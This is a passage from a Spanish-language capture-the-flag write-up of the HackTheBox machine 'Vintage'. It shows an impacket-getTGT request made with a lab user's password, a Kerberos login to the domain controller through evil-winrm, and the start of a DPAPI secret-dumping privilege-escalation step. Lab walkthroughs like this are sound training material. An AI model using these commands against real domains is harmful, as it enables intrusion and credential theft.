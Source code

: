 Debido que a través de NTLM no podemos autenticarnos, deberemos primeramente solicitar el TGT (Ticket Granting Ticket) del usuario para almacenar el ticket en la variable _KRB5CCNAME_ y posteriormente validar que el tiquet sea válido y se encuentre almacenado correctamente a través de los siguientes comandos.

```bash
impacket-getTGT vintage.htb/C.Neri:Zer0the0ne

export KRB5CCNAME=C.Neri.ccache

klist -e
```

<figure><img src="../../.gitbook/assets/2739_vmware_K5OHPSkHau.png" alt=""><figcaption></figcaption></figure>

Una vez tengamos el ticket TGT, procederemos a autenticarnos al **evil-winrm** mediante Kerberos para conectarnos al Domain Controller. Verificaremos el acceso y la flag del **user.txt**.

```bash
evil-winrm -i dc01.vintage.htb -r vintage.htb
```

<figure><img src="../../.gitbook/assets/2740_vmware_6kM8pgOpXr.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing DPAPI Secrets to Move Laterally (impacket-dpapi)

Una vez obtenido el acceso al Domain Controller, el siguiente paso será elevar nuestros privilegios para convertirnos finalmente en Domain Admins.

Buscando posibles vectores para escalar nuestros privilegios, nos encontramos con el **DPAPI Privilege Escalation ->** [**https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets**](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)
